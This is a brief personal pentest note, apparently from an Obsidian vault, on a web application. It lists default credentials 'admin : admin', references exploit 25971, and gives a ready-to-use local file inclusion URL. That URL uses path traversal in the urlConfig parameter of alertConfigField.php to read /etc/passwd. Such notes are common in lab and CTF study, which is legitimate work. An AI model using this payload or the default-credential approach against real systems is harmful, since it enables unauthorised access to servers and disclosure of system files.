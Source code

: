 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

admin : admin

LFI:

exploit 25971

```
http://$TARGET/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

